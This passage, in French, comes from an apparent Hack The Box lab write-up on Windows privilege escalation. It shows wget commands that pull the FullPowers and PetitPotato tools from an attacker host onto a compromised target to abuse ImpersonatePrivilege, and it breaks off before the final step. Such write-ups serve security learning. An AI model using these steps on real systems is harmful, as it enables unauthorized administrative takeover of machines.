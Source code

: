 ![nt authority user shell on the target](/images/HTB-Visual/nt-authority-local-service.png)

Vérifiez vos privilèges et vous remarquez qu'il vous manque le privilège `ImpersonatePrivilege` nécessaire pour obtenir les privilèges administratifs.

Exécutons `whoami /priv`.

![nt authority user privileges](/images/HTB-Visual/nt-authority-priv.png)

## Escalade des privilèges

Cet [article](https://itm4n.github.io/localservice-privileges/) vous donne le lien d'un outil qui permet d'obtenir plus de privilèges. L'outil s'appelle [FullPowers](https://github.com/itm4n/FullPowers). Téléchargez-le sur la machine cible (Assurez-vous d'utiliser le reverse shell avec `nt authority\local service`).

> Ce fichier ne sera pas exécuté via le navigateur, donc nous retournons dans le répertoire `xampp` avec (`cd ..`) avant de télécharger notre fichier.

```
wget http://10.10.14.222:8000/FullPowers.exe -o fp.exe
```

Une erreur se produit parce que nous disposons actuellement d'un shell cmd et non d'un shell PowerShell.

![nt authority user shell error](/images/HTB-Visual/shell-error-1.png)

Il suffit d'utiliser `powershell` et de réexécuter la commande `wget`.

![nt authority FullPowers dlownload](/images/HTB-Visual/powershell-fullpowers-dl.png)

Maintenant, nous exécutons `fp.exe` et nous obtenons de nouveaux privilèges! Remarquez que nous avons été rétrogradés à un shell cmd et que nous avons été forcés hors du dossier `xampp`, nous devons donc exécuter `powershell` à nouveau et `cd C:\xampp`.

![nt authority user new privileges](/images/HTB-Visual/nt-authority-new-priv.png)

Nous pouvons maintenant utiliser [PetitPotato](https://github.com/wh0amitz/PetitPotato) pour réaliser une escalade de privilèges en abusant de `ImpersonatePrivilege`. 

Nous le transmettons à la cible en exécutant

```
wget http://10.10.14.222:8000/PetitPotato.exe -o pp.exe
```
Nous obtenons une erreur

```
wget : Win32 internal error "Access is denied" 0x5 occurred while reading the console output buffer. Contact Microsoft 
```

Il semble que cette erreur soit causée par la barre de progression affichée sur le terminal. Elle peut être résolue en exécutant `$ProgressPreference = "SilentlyContinue"` avant la commande `wget`.

Nous pouvons maintenant utiliser notre fichier en exécutant
